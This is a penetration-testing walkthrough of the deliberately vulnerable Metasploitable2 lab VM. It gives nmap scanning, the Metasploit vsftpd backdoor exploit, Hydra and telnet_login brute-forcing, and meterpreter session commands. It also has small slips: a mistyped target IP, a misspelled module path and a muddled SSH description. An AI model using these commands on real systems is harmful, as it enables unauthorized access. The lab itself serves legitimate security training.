




# Vulnerability-Assessment-and-Penetration-Testing-on-Metasploitable-2

The Metasploitable virtual machine is a purposefully vulnerable version of Ubuntu Linux that may be used to test security tools and demonstrate common flaws. This virtual machine’s version 2 is now available for download, and it contains even more vulnerabilities than the initial image. VMWare, VirtualBox, and other popular virtualization platforms are all compatible with this virtual machine. The network interfaces of Metasploitable are bound to the NAT and Host-only network adapters by default, and the image should never be exposed to a hostile network. This Virtual Machine (Metasploitable2) can be used to conduct security training, test security tools, and practice common penetration testing techniques.

## Pre-requirements

First, we need to download VMWare Workstation Pro or VirtualBox (your choice of selection). It enables users to create and run Virtual Machines (VMs) directly on a single Windows or Linux desktop or laptop, where we can run any Operating System through this software on another Operating System. In this walkthrough, I am using VMWare Workstation Pro to set up the Metasploitable-2 on my computer.

- **VMWare Workstation Pro**: [VMWare Workstation Pro Download](https://www.vmware.com/in/products/workstation-pro/workstation-pro-evaluation.html)
- **VirtualBox**: [VirtualBox Download](https://www.virtualbox.org/wiki/Download)

Now you can download the **Kali Linux OS** for attacking the machine.
- **Kali Linux**: [Kali Linux Download](https://www.kali.org/get-kali/#kali-platforms)

## Downloading and Setting up Metasploitable-2

Now we need to download the Metasploitable-2 image to our system. The compressed file is about 800 MB and can take a while to download over a slow connection. After you have downloaded the Metasploitable-2 file, you will need to unzip the file to see its contents.

- **Download Metasploitable-2**:
  - [Rapid7 Metasploitable Download](https://information.rapid7.com/metasploitable-download.html)
  - [SourceForge Metasploitable Download](https://sourceforge.net/projects/metasploitable/)

After downloading the Metasploitable2 Image, open VMWare Workstation Pro and follow these steps to set up Metasploitable2:

1. Click on the "Open a Virtual Machine" button.
2. Select the Metasploitable2 image and click the "Open" button.


``

3. Now power on this virtual machine.


4. Now this machine starts…


Default passwords for Metasploitable2 are:
- **Username**: `msfadmin`
- **Password**: `msfadmin`

Then the machine starts after entering the credentials …





Find machine IP address by using the following command in terminal:
```bash
ifconfig
```


## Scanning

Through the above command in the terminal, we know the IP address of this machine is 192.168.244.131. Now we are going to scan this IP address with the Nmap tool. Use the following command to perform the scan:

```bash
nmap -n -sV -p- 192.168.244.131
```




## Exploitation

All the ports shown in the Nmap scanning are to be exploited in the following way:

### Port-21 (FTP)

**Method 1:**

As this is an Anonymous FTP server, we can login with `anonymous` as the username and for the password, don’t give any password, just press enter. It will login successfully and give the FTP shell.

```bash
ftp 192.168.244.131
```




**Method 2: (Exploiting FTP through Metasploit Framework)**

As we know the FTP version is vsftpd, we can exploit it using Metasploit Framework. Follow the steps below to exploit through Metasploit Framework:

1. Open msfconsole:
   ```bash
   msfconsole

   search vsftpd


```bash
use exploit/unix/ftp/vsftpd_234_backdoor
show options
set RHOST 191.168.244.131 <target Ip address>
exploit
```


**Method 3: (Brute Force with Hydra tool)**

Hydra is a parallelized login cracker which supports numerous protocols to attack. It is very fast and flexible, and new modules are easy to add. This tool makes it possible for researchers and security consultants to show how easy it would be to gain unauthorized access to a system remotely.

```bash
hydra -L /root/Desktop/usernames.txt -P /root/Desktop/passwords.txt 192.168.244.131 ftp -V

```


### Port-22 (SSH)

The Secure Shell Protocol (SSH) is a cryptographic network protocol for operating network services securely over an unsecured network. Secure Shell is a network communication protocol that enables two computers to communicate (http or hypertext transfer protocol, which is the protocol used to transfer hypertext such as web pages) and share data.

#### Connecting to SSH Server

The command for connecting to the SSH server is:
```bash
ssh <username>@<target_ip_address>
```

**Method 1: (Brute Force with Hydra tool)**
We can brute force the SSH service to obtain credentials by cracking the username and password.

```bash
hydra -L /root/Desktop/usernames.txt -P /root/Desktop/passwords.txt 192.168.244.131 ssh
```


**method 2 :- (Exploiting SSH through Metasploit Framework)**

Here also we are doing the Brute Force with Metasploit Framework . Follow below steps to exploit in this machine.
```bash
msfconsole
search ssh_login
use auxialiary/scanner/ssh/ssh_login

```
Now we need to set the RHOST and need to set the usernames and
passwords dictionaries to brute force the ssh.
```bash
set RHOST 192.168.244.131 <target ip>
set user_file /root/Desktop/usernames.txt
```


It will take time based on your usernames and passwords List (files) and It will Notify with username: password and login with those credentials. so from both we got same results , lets check them.


### Port-23 ( TELNET ) :
Telnet (Terminal Network) is an protocol used on the Internet or local area network to provide a bidirectional interactive text-oriented communication facility using a virtual terminal connection. It is a text-based network protocol that is used for accessing remote computers over TCP/IP networks like the Internet.
```bash
telnet < target Ip address >
```
**method 1 :-**
Telnet grabbed the metasploitable2 system’s Banner. In that itself we have username and password so use it to login to the system .


**method 2 :-( Brute Force with M.F )**

This module will test and report successful telnet logins on a variety of machines. If you’ve installed a database plugin and connected it to a database, this module will keep track of successful logins and hosts .The same password and user file from earlier will be used for this.
```bash
search telnet_login
use auxiliary/scanner/telnet/telnet_login
set RHOST 192.168.244.131 < target ip >
set user_file /root/Desktop/user.txt
set pass_file /root/Desktop/pass.txt
set stop_on_success true
```


```bash
exploit
```
After scanning we got login successful then type this for getting meterpreter
shell.
```bash
sessions -u 1
sessions 2
```



